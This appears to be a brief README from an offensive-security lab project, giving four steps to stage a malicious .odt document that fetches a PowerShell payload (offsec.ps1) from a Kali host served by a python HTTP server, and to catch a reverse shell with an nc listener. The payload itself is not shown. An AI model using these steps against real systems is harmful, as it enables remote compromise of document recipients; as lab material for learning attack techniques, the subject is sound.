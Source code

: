 # Instructions
#### 1 - Update .odt file with Kali Station LHOST IP (keep port 80)
#### 2 - Update offsec.ps1 with Kali Station <LHOST_IP> and <LPORT>
#### 3 - Start python server in offsec.ps1 directory: python3 -m http.server 80
#### 4 - Start nc listener: nc -nlvp <LPORT>
